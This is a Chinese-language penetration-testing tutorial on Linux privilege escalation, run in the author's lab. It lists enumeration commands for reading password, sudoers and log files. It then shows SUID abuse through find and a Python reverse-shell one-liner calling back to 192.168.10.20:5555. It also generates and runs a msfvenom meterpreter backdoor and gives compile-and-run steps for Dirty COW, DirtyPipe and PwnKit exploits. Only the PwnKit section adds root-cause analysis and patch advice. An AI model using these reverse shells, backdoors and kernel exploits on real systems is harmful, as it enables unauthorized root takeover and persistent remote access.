




# 1. 前言

关于Linux系统提权的前置知识其实和Windows系统提权是一致的，只是在系统位置，由Windows系统更换为Linux系统而已。

权限提升的本质就是通过低权限的账户转换为高权限账户，通过获取高权限账户去做想要做的事情。

同时在内核提权提权的时候，需要注意有些内核漏洞需要使用到本地用户去提权，也就是非web权限，但是有些漏洞可以无视权限都可以进行提权，这一点需要注意。

# 2. 基础信息收集

在进行Linux系统提权之前首先需要先对系统进行信息收集。

## 2.1. 内核、操作系统、设备信息等

通过下列命令，可以判断主机在域中的信息、内核信息、系统信息，便于通过这些信息搜索一些用于提权的内核漏洞。

```bash
uname -a    ##打印所有可用的系统信息
uname -r    ##内核版本
uname -n    ##系统主机名。
uname -m    ##查看系统内核架构（64位/32位）
hostname    ##系统主机名
cat /proc/version    ##内核信息
cat /etc/*-release   ##分发信息
cat /etc/issue       ##分发信息
cat /proc/cpuinfo    ##CPU信息
cat /etc/lsb-release   ##Debian 
cat /etc/redhat-release  ##Redhat
ls /boot | grep vmlinuz-
```


## 2.2. 用户信息

通过查询相关的用户信息也能够在为提权上做出相关的参考。

```bash
cat /etc/passwd     ##列出系统上的所有用户
cat /var/mail/root
cat /var/spool/mail/root
cat /etc/group      ##列出系统上的所有组
grep -v -E "^#" /etc/passwd | awk -F: '$3 == 0 { print $1}'      ##列出所有的超级用户账户
whoami                 ##查看当前用户
w                      ##谁目前已登录，他们正在做什么
last                   ##最后登录用户的列表
lastlog                ##所有用户上次登录的信息
lastlog –u %username%  ##有关指定用户上次登录的信息
lastlog |grep -v "Never"  ##以前登录用户的完
```


## 2.3. 用户权限信息

```shell
whoami            ##当前用户名
id                ##当前用户信息
cat /etc/sudoers  ##谁被允许以root身份执行
sudo -l           ##当前用户可以以root身份执行操作
```


## 2.4. 环境信息

```
env        ##显示环境变量
set        ##现实环境变量
echo %PATH ######路径信息
history    ####显示当前用户的历史命令记录
pwd        ##输出工作目录
cat /etc/profile   ##显示默认系统变量
cat /etc/shells    ##显示可用的shellrc
cat /etc/bashrc
cat ~/.bash_profile
cat ~/.bashrc
cat ~/.bash_logout
```


## 2.5. 进程与服务

```bash
ps aux
ps -ef top
cat /etc/services
top
```


## 2.6. 安装的软件

这里通过使用下列命令，能够知道安装了哪些程序、什么版本、是否在运行等信息。

```bash
ls -alh /usr/bin/
ls -alh /sbin/
ls -alh /var/cache/yum/
dpkg -l
```


## 2.7. 服务与插件

服务设置是否配置错误，是否附有（脆弱的）插件。

```
cat /etc/syslog.conf
cat /etc/chttp.conf
cat /etc/lighttpd.conf
cat /etc/cups/cupsd.conf
cat /etc/inetd.conf
cat /etc/apache2/apache2.conf
cat /etc/my.conf
cat /etc/httpd/conf/httpd.conf
cat /opt/lampp/etc/httpd.conf
ls -aRl /etc/ | awk '$1 ~ /^.*r.*/
```

## 2.8. 计划任务

```
crontab -l
ls -alh /var/spool/cron
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny
cat /etc/crontab
cat /etc/anacrontab
cat /var/spool/cron/crontabs/root
```

## 2.9. 是否有存放明文密码

```
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find , -name "*.php" -print0 | xargs -0 grep -i -n "var $password"
```

## 2.10. 查看与主机通信信息

```
lsof -i
lsof -i :80
grep 80 /etc/services
netstat -anptl
netstat -antup
netstat -antpx
netstat -tulpn
chkconfig --list
chkconfig --list | grep 3:on
last
w
```

## 2.11. 日志信息

```
cat /var/log/boot.log
cat /var/log/cron
cat /var/log/syslog
cat /var/log/wtmp
cat /var/run/utmp
cat /etc/httpd/logs/access_log
cat /etc/httpd/logs/access.log
cat /etc/httpd/logs/error_log
cat /etc/httpd/logs/error.log
cat /var/log/apache2/access_log
cat /var/log/apache2/access.log
cat /var/log/apache2/error_log
cat /var/log/apache2/error.log
cat /var/log/apache/access_log
cat /var/log/apache/access.log
cat /var/log/auth.log
cat /var/log/chttp.log
cat /var/log/cups/error_log
cat /var/log/dpkg.log
cat /var/log/faillog
cat /var/log/httpd/access_log
cat /var/log/httpd/access.log
cat /var/log/httpd/error_log
cat /var/log/httpd/error.log
cat /var/log/lastlog
cat /var/log/lighttpd/access.log
cat /var/log/lighttpd/error.log
cat /var/log/lighttpd/lighttpd.access.log
cat /var/log/lighttpd/lighttpd.error.log
cat /var/log/messages
cat /var/log/secure
cat /var/log/syslog
cat /var/log/wtmp
cat /var/log/xferlog
cat /var/log/yum.log
cat /var/run/utmp
cat /var/webmin/miniserv.log
cat /var/www/logs/access_log
cat /var/www/logs/access.log
ls -alh /var/lib/dhcp3/
ls -alh /var/log/postgresql/
ls -alh /var/log/proftpd/
ls -alh /var/log/samba/

Note: auth.log, boot, btmp, daemon.log, debug, dmesg, kern.log, mail.info, mail.log, mail.warn, messages, syslog, udev, wtmp
```

# 3. 脚本收集

这里使用github上的一些自动化脚本收集。

## 3.1. LinEnum

Linux枚举及权限提升检查工具，该工具除了RCE无法收集，其它的信息都能收集，主要收集：内核、发行版本、系统信息、用户信息、特权访问、环境、作业、任务、服务、web服务的版本、默认/弱口令、搜索等

下载地址：[LinEnum](https://github.com/rebootuser/LinEnum)

### 3.1.1. 上传脚本

首先将文件上传至/tmp目录下，一般来说在/tmp目录下，一般是可以进行可读写可执行的。

```
chmod +x LinEnum.sh  ##添加执行权限
```


### 3.1.2. 执行脚本

这里就可以执行脚本了，返回的信息很多，可以看到SUID提权用到的信息等，以及历史命令，万一找到root曾经输入过的密码呢？？？ 

```
./LinEnum.sh
```



## 3.2. Linuxprivchecker

这个同样也的对服务器上的信息进行收集，但是不像LinEnum那样有颜色进行表示，看起来不太方便，所以一般来说不太喜欢这个，但是可以对比，看看是否存在遗漏。

这个脚本是使用python进行执行的，通常Linux是会自带python环境的，如果没有就GG，所以为什么说相比LinEnum不好用，就在这里。

下载地址：[Linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)

### 3.2.1. 执行脚本

这里就不在提上传脚本了，由于是使用python进行执行的，也不需要添加权限，直接进行执行。

```
python linuxprivchecker.py  ##服务器要存在python环境。
```


## 3.3. linux-exploit-suggester

这个脚本会输出内核等信息，然后输出可能存在的漏洞，包括exp的下载地址，可以下载对应的exp来测试。有橙色标签的说明更符合目标机情况。

下载脚本：[linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)

### 3.3.1. 执行脚本

```
chmod +x linux-exploit-suggester.sh  ##添加执行权限
./linux-exploit-suggester.sh   ##执行脚本
```


### 3.3.2. 执行漏洞

在通过脚本的判断后可以通过给予的信息下载exp进行提权，这里需要注意，如果网络环境不好，可能下载exp会出现错误，如果出现这个情况，可以直接百度搜索给予的下载连接去手动下载，将下载完的exp上传上去。

这里可能会遇到下载的c语言环境的脚本，需要c语言进行编译，而服务器上可能很少会安装c语言环境，那么你可以本地进行编译，将编译完的exp再上传上去执行，不过最好找一台同样型号的进行编译，不然会出错，普通用户是没有下载c环境的权限，除非管理员给这个用户添加了权限，但是在实际环境中，多数都是web权限的用户，怎么会有下载权限呢？？？

c语言环境在下面的脏牛提权中提到了，这里是我后补的，我就不想改了，可以拉到下面看。

#### 3.3.2.1. 下载EXP

可以看到我想说的就是这中情况，要不没有下载功能，要不由于下载的都是国外的服务器，访问容易出现问题，所以就只能手动下载了，至于下载地址，你可以仔细看每一个rce编号下面都有一个连接，那个就是下载连接。


#### 3.3.2.2. 查看EXP

这里先查看一下EXP，在EXP中都会存在编译的命令，可以使用工具打开c环境。


#### 3.3.2.3. 编译EXP

在编译EXP之前需要先将文件上传上去，如果网络好，就不需要上传EXP了，然后进行编译。

```
gcc 15150.c -o 15150    ##前面15150.c是文件，后面的是自定义的编译后文件名称
```


#### 3.3.2.4. 执行EXP

我这里换了几个都没有运行成功，总的来说还是需要一个一个测试的，下面的截图就是我换完后的，不过exp那么多总归可能有成功的，只是我测试了几个都没成功吧了。

```
./15150
```


## 3.4. linux-exploit-suggester-2

这个和上面的类似，只不过更精简，也更准确一点。

下载地址：[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)

### 3.4.1. 执行脚本

这里下载完后，添加一个执行权限，然后进行执行，看下面的图片就能看出没有解释器，我这里是重装的云服务器系统，上面什么都没有，通过百度搜索，好像安装mysql也是需要这个解释器的，那么应该装数据库的服务器上应该都是有这个解释器的。如果没有可以执行命令"yum -y install perl perl-devel"进行安装。

```
chmod +x linux-exploit-suggester-2.pl  ##添加执行权限
./linux-exploit-suggester-2.pl  ##运行脚本
```


#### 3.4.1.1. 执行效果

可以看出有很多漏洞，那么同样是根据下面给到的EXP下载连接去下载，然后执行即可，这里就不演示了。


## 3.5 注意

上面三个脚本，我是在windows上下载下来，然后复制到linux执行，结果都报错找不到需要的文件，或者解释器错误


这是因为：**从windows复制过去时，由于shell脚本文件是dos格式，即每一行结尾以\r\n来标识，而unix格式的文件行尾则以\n来标识**

### 解决办法：

```shell
（1）使用linux命令dos2unix filename，直接把文件转换为unix格式；再执行（kali装了dos2unix,如果没有，自己安装就是了）
（2）使用sed命令sed -i "s/\r//" filename 或者 sed -i "s/^M//" filename直接替换结尾符为unix格式；
（3）vi filename打开文件，执行 : set ff=unix 设置文件为unix，然后执行:wq，保存成unix格式。


查看脚本文件是dos格式还是unix格式的几种办法。
（1）cat -A filename
从显示结果可以判断，dos格式的文件行尾为^M$，unix格式的文件行尾为$；
（2）od -t x1 filename
如果看到输出内容中存在0d 0a的字符，那么文件是dos格式，如果只有0a，则是unix格式；
（3）vi filename打开文件，执行: set ff，如果文件为dos格式在显示为fileformat=dos，如果是unxi则显示为fileformat=unix。
```

之后就可以正常使用了


# 4. SUID提权

SUID (Set owner User ID up on execution) 是给予文件的一个特殊类型的文件权限。

在 Linux/Unix中，当一个程序运行的时候， 程序将从登录用户处继承权限。SUID被定义为给予一个用户临时的（程序/文件）所有者的权限来运行一个程序/文件。用户在执行程序/文件/命令的时候，将获取文件所有者的权限以及所有者的UID和GID。

如果root给一个程序赋予了SUID权限，则普通用户在执行该程序过程中，是root权限。

suid权限仅对二进制程序有效（binary program）(系统中的一些命令），不能用在脚本上（script）。

 执行者对于该程序需要具有x的可执行权限；

本权限仅在执行该程序的过程中有效（run-time）；

执行者将具有该程序拥有者的权限。

## 4.1. SUID设置

这里举个例子，看一下SUID如何设置。

新建一个1.txt，并且查看现有的权限，然后加上SUID权限，看文件的变化，通过从权限上的变化也能够看出，所有者权限位上出现了S，那么就证明这个文件存在SUID权限，也就是说当普通用户去执行该文件的时候也是以root权限去执行。


## 4.2. 查找拥有SUID权限的程序

这里使用下列命令，可以查找到拥有SUID权限的程序，同时也能看到，刚刚我们添加的1.txt也被查找到了。

```bash
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
find / -user root -perm -4000 -print 2>/dev/null
-perm 指定权限
-u=s 表示SUID权限
-type 指定文件类型
f 表示常规文件，而不是目录或特殊文件
2 表示该进程的第二个文件描述符，即stderr（标准错误）
/dev/null 是一个特殊的文件系统对象，它将丢弃写入其中的所有内容。
```


## 4.3. 各类提权命令

常见具有SUID权限的二进制可执行文件如下：

```bash
nmap vim find bash more less nano cp awk
```

这个可能存在一个疑问就是，为什么刚刚查找到的命令中并没有这些二进制可执行文件，是由于当登录的用户为root权限的时候，就会出现默认的所有命令都是以root权限去执行，但是在实际环境中，由于root权限过大，当管理员想要管理的时候，通常会将一些常见的搜索、文本编辑、下载安装等设置上SUID权限，让在普通用户权限下也能够以root权限去执行。

这里我们添加一下find设置为SUID权限，让普通用户也能够查找文件。

```bash
chmod u+s /usr/bin/find
ll /usr/bin | grep find
```


## 4.4. find提权

这里就拿find提权做个案例，其它的命令均可在网站中找到相关的操作命令。

测试环境：centos7.6

这里我并没有搭建web网站，然后上传文件获取webshell去执行，而是直接在靶机中操作，其实操作方式都一样的，不存在其它的操作方式，所以无需在意。

### 4.4.1. 查找SUID权限

这里我切到普通用户，如何进行查找SUID权限，能够看到刚刚添加的find命令是存在SUID权限的，不同的Linux类型有不同的搜索方式，可以一条一条测试。

```
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} ;
find / -user root -perm -4000 -print 2>/dev/null
```


### 4.4.2. 寻找find命令

从刚刚给予的网站中找到find命令，如何点击进去就能够查看相关的操作方式。



### 4.4.3. 尝试提权

这里首先看一下现有获取到的权限是什么，可以看到就是一个普通用户权限。


接下来使用find进行提权，文件名可以随便找一个，由于find是查找，所以后面需要跟着个文件名，执行命令就执行你想要执行的命令即可。

这里我执行命令后就能够看到是以root权限执行。

```
find 文件名 -exec 执行命令 \;
```


也可以使用使用网站中给予的命令来提权，如果需要

```
find . -exec /bin/sh \; -quit
```


### 4.4.4. 反弹权限

这里可以使nc或者python进行反弹，但是在测试中发现反弹回来还是普通用户权限，在执行一些命令前还是需要使用find，不知道网上其它文章为什么反弹回来的是root权限。

这里我使用python反弹做演示，由于我的centos7环境中并没有nc。

#### 4.4.4.1. 查看是否存在python

使用命令可以查看python的版本，以及确定是否存在python

```
python
```


#### 4.4.4.2. 生成python反弹命令

可以用下面的网站一键生成反弹命令

```
find 111 -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.20",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' \;
```


#### 4.4.4.3. 反弹效果

这里也可以通过nc或则python脚本进行反弹，但本质上目的都是获取一个root权限的shell。而且通过nc或者python脚本反弹的shell很可能还是普通用户权限，所以建议直接使用上面那种方法。

```
nc -lvnp 5555
```


## 4.5. MSF后门木马反弹

这里我们可以尝试生成一个Linux的后门木马进行反弹，在生成之前需要知道Linux是32位还是64位。

### 4.5.1. 生成后门

我们这里知道操作系统是64位的，所以我们生成一个64位的Linux后门木马。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.20  LPORT=5555 -f elf > shell.elf
```


### 4.5.2. 开启监听

这里开启kali上的监听。

```bash
use exploit/multi/handler                      ##进入监听
set payload linux/x64/meterpreter/reverse_tcp  ##监听payload
set lhost 192.168.10.20                        ##设置监听地址
set lport 5555                                 ##设置监听端口
run																						 ##执行
```


### 4.5.3. 上传后门

这里将后门上传到Linux系统中，并且给文件添加一个执行权限，然后再使用find进行执行。

```
chmod +x shell.elf     ##给后门木马添加权限
find 111 -exec ./shell.elf \;  ## 执行后门木马
```


### 4.5.4. 查看反弹效果

可以看到这里使用木马反弹回来的是root权限，那么我们输入内容就无需使用find进行执行了。


## 4.6. 总结

至于其它的命令使用方式，可以在给予的网站中去查找相关的使用方式，这里就不再进行演示了。

# 5. 内核提权之脏牛

内核提权极容易让服务器崩溃，所以在使用中需要注意，比如我使用的是云服务器做下面的案例，由于我的云服务器是2核的，提权速度很慢，同时云服务器的CPU，磁盘等基本上快被拉满了，所以在做这个实验的时候，需要注意！！

同时内核提权和Windows溢出提权是一致的，都是寻找相关的系统漏洞进行执行。

## 5.1. 脏牛漏洞介绍

漏洞信息：CVE-2016-5195漏洞

影响范围：Linux 内核2.6.22 – 3.9 (x86/x64)

漏洞EXP：[脏牛EXP](https://github.com/FireFart/dirtycow)

## 5.2. 脏牛提权操作

我这里是先让服务器反弹一个普通权限回来，然后准备使用MSF去操作的，但是出现的问题就是输入shell后很长时间进不去，可能是由于一个服务器是香港的，一个是华为云，连接上存在一点问题，我这里直接去香港服务器上操作吧。


### 5.2.1. 查看服务器内核版本

首先需要查看以下服务器内核版本，然后去判断使用那种内核进行提权，可以看到我们获取到的是一个2.6的符合脏牛提权。


### 5.2.2. 上传脏牛EXP

我们这里将脏牛EXP下载下来，然后上传至目标靶机上，并对其进行编译。

#### 5.2.2.1. 注意

注意这里在Linux中编译的话必须有C语言环境，我参考了好多文章，没一个文章提到这个环境问题的，我对语言不太懂，但是WEB搭建过程中应该很少会用到C语言，同时很多服务器都是安装的都是精简模式，所以都不会带C语言环境，但是如果确实想提权，可以自己提前先编译好再上传。

下面的图片是已经按照好C语言环境的，如果没有按照只会显示"gcc:"后面就没有了。

```
whereis gcc  ##查看是否存在C语言环境
yum install gcc  ##安装C语言环境，注意在普通用户下不能安装。
```


#### 5.2.2.2. 编译脏牛EXP

```
gcc -pthread dirty.c -o dirty -lcrypt ##编译
```


### 5.2.3. 执行脏牛EXP

这里我们执行脏牛EXP即可，执行完成后就会获取到一个用户名为firefart，密码就是刚刚设置的。

```
./dirty  123456  ##执行，后面的123456是自定义的密码
```


### 5.2.4. 登录账户

登录后，查看id，发现为root权限，即为提权成功，注意这里我使用云服务器测试完后，再次连接云服务器的时候，发现root密码被拒绝登录了，也就是root密码错误，但是我使用我设置的密码登录，依旧是错误的，这个需要注意。


# 6. 内核提权之DirtyPipe（CVE-2022-0847）

关于DirtyPipe漏洞利用的EXP网上有很多，这里我就举其中一种列子，至于其它的提权方式，可以参看其它的文章，或者直接百度搜这个漏洞编号，就会出现一大堆，利用方式。

## 6.1. DirtyPipe漏洞介绍

漏洞信息：CVE-2022-0847漏洞

影响范围：Linux Kernel版本 >= 5.8

​					Linux Kernel版本 < 5.16.11 / 5.15.25 / 5.10.102

漏洞EXP：[DirtyPipe](https://github.com/r1is/CVE-2022-0847)

## 6.2. DirtyPipe提权操作

内核提权需要谨慎，容易让服务器崩溃或者出现其它问题。

### 6.2.1. 查看服务器内核

这里我使用的是kali服务器，内核版本可能有点高，所以导致不成功，可以去看看其他人的文章。

```
unam -a ##查看内核版本
```


### 6.2.2. 添加EXP权限

这里需要提前将EXP上传至服务器中，并且给予执行权。

```
cd /tmp  ##到tmp目录下，原因就看你之前有没有仔细看文章了
chmod +x Dirty-Pipe.sh   ##添加执行权限
```



### 6.2.3. 执行EXP

这里执行一下EXP，会自动跳转到root权限上，我这里未成功是由于kali的内核版本可能太高了，下面图片就是其它人执行成功的效果。

```
bash Dirty-Pipe.sh
```


# 7.**CVE-2021-4034-Polkit提权-通杀linux<2021**


## 7.1.1漏洞简介

2021年，Qualys研究团队公开披露了在Polkit的pkexec 中发现的一个权限提升漏洞，也被称为PwnKit。该漏洞是由于pkexec 没有正确处理调用参数，导致将环境变量作为命令执行，攻击者可以通过构造环境变量的方式，诱使pkexec执行任意代码使得非特权本地用户获取到root的权限。

## 7.1.2 影响范围（受影响的主流Linux发行版本）：

```plain
Ubuntu 21.10 (Impish Indri) policykit-1 < 0.105-31ubuntu0.1 
Ubuntu 21.04 (Hirsute Hippo) policykit-1 Ignored (reached end-of-life) 
Ubuntu 20.04 LTS (Focal Fossa) policykit-1 < Released (0.105-26ubuntu1.2) 
Ubuntu 18.04 LTS (Bionic Beaver) policykit-1 < Released (0.105-20ubuntu0.18.04.6) 
Ubuntu 16.04 ESM (Xenial Xerus) policykit-1 < Released (0.105-14.1ubuntu0.5+esm1) 
Ubuntu 14.04 ESM (Trusty Tahr) policykit-1 < Released (0.105-4ubuntu3.14.04.6+esm1) 
CentOS 6 polkit < polkit-0.96-11.el6_10.2 
CentOS 7 polkit < polkit-0.112-26.el7_9.1 
CentOS 8.0 polkit < polkit-0.115-13.el8_5.1 
CentOS 8.2 polkit < polkit-0.115-11.el8_2.2 
CentOS 8.4 polkit < polkit-0.115-11.el8_4.2 
Debain stretch policykit-1 < 0.105-18+deb9u2 
Debain buster policykit-1 < 0.105-25+deb10u1 
Debain bookworm, bullseye policykit-1 < 0.105-31.1
```

## 7.2 漏洞原理

## 7.2.1 Polkit

Polkit（PolicyKit）是类Unix系统中一个应用程序级别的工具集，通过定义和审核权限规则，实现不同优先级进程间的通讯。pkexec是Polkit开源应用框架的一部分，可以使授权非特权用户根据定义的策略以特权用户的身份执行命令。

## 7.2.2 原理分析

该漏洞主要是使用pkexec加载恶意的so文件来进行提权，这里使用的是polkit-0.120的源码进行分析。下载地址为：https://www.freedesktop.org/software/polkit/releases/polkit-0.120.tar.gz 。src/programs/pkexec.c的部分代码如下：

```cpp
435 main (int argc, char *argv[])
436 {
...
534   for (n = 1; n < (guint) argc; n++)
535     {
...
568     }
...
610   path = g_strdup (argv[n]);
...
629   if (path[0] != '/')
630     {
...
632       s = g_find_program_in_path (path);
...
639       argv[n] = path = s;
640     }
```


435行：main函数，两个参数含义如下：

​    argc （argument count）：表示传入main函数中参数的个数，包括这个程序本身。

​    argv（argument vector）：表示传入main函数中的参数列表，其中argv[0]是这个函数的名称。

534-568行：main函数处理命令行参数。

610-640 行：在 PATH 环境变量的目录中搜索要执行的程序，如果其路径不是绝对路径（path[0] != '/'），则argv[n] = path = s。

若我们让argc为0，即传入的参数为空，则会出现以下情况：

第534行：n被赋值为1。

第610行：argv[n] （此时为argv[1]）将会越界读取指针路径。

第639行：指针s被越界写入argv[1]的内容。

而要知道这个越界的argv[1]读写的什么内容，我们就必须得了解execve函数，其原型如下：


int execve(const char *filename, char *const argv[], char *const envp[]);


当使用execve()函数启动一个新程序时，内核将参数、环境变量字符串以及指针（argv与envp）复制到新程序堆栈的末尾。如使用其启动pkexec，则execve("/usr/bin/pkexec",{"program","-option",...},{"value","PATH=name",...})的内存布局如下图：


由上图可知，argv和envp指针在内存中是连续的，若argc为0，则argv[1]指向的就是envp[0]，就是第一个环境变量“value”。继续前面的分析：

第610行：将要执行的程序的路径从argv[1]（即envp[0]）中越界读取，并指向“value”。

第632行：这个路径“value”被传递给 g_find_program_in_path函数，在 PATH 环境变量的目录中搜索一个名为“value”的可执行文件；如果找到这样的可执行文件，则将其完整路径返回给pkexec第 632 行的指针s；

第639行：这个完整路径被越界写入argv[1]（即envp[0]），从而覆盖了我们的第一个环境变量。

但是在670行对环境变量进行了校验，防止引入危险的环境变量。


该validate_environment_variable() 函数部分代码如下：



其中使用了g_printerr()函数打印错误消息，该函数调用了glibc的函数iconv_open()函数。iconv_open()函数使用时首先会找到系统提供的gconv-modules文件（这个文件中包含了各个字符集的相关信息存储的路径，每个字符集的相关信息存储在一个.so文件中，即gconv-modules文件提供了各个字符集的.so文件所在位置）。然后再根据gconv-modules文件的指示去链接参数对应的.so文件。

而GCONV_PATH这个环境变量可以修改指向gconv-modules的位置，也就是说如果攻击者控制了GCONV_PATH就可以让iconv_open找到攻击者构造的gconv-modules，让其执行指定的.so文件内的特定函数来进行提权。

## 7.3 漏洞复现

## 7.3.1 实验环境

操作系统：Centos7.9（镜像地址：https://mirrors.tuna.tsinghua.edu.cn/centos/7.9.2009/isos/x86_64/CentOS-7-x86_64-Minimal-2009.iso）

普通用户：zhangsan

漏洞利用工具：https://github.com/berdav/CVE-2021-4034

## 7.3.2 复现过程

下载漏洞利用工具，这里现将工具压缩包下载值kali，在kali上用python开启web服务，来让被攻击主机下载。

wget http://192.168.219.134:8000/CVE-2021-4034-main.zip

压缩，编译，利用。

unzip CVE-2021-4034-main.zip

cd CVE-2021-4034-main

make

./cve-2021-4034


提权成功。

## 7.4 修复建议

更新官方补丁，下载地址：https://gitlab.freedesktop.org/polkit/polkit/-/commit/a2bf5c9c83b6ae46cbd5c779d3055bff81ded683

根据不同厂商的修复建议或安全通告进行防护。

Redhat：https://access.redhat.com/security/cve/CVE-2021-4034

Ubuntu：https://ubuntu.com/security/CVE-2021-4034

Debian：https://security-tracker.debian.org/tracker/CVE-2021-4034

临时防护可以移除 pkexec 的 suid位。

chmod 0755 /usr/bin/pkexec

## 7.5 参考文章

CVE-2021-4034 Linux Polkit 权限提升漏洞挖掘思路解读（https://cloud.tencent.com/developer/article/1940677）。

SUID提权：CVE-2021-4034漏洞全解析（https://www.cnblogs.com/northeast-coder/p/15925463.html）。

CVE-2021-0434 详解 exp编写 复现（https://www.cnblogs.com/ash-33/p/16118713.html）。

CVE-2021-4034：Linux Polkit 权限提升漏洞复现及修复（https://blog.csdn.net/laobanjiull/article/details/122715651）。

PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034) （https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034）。 
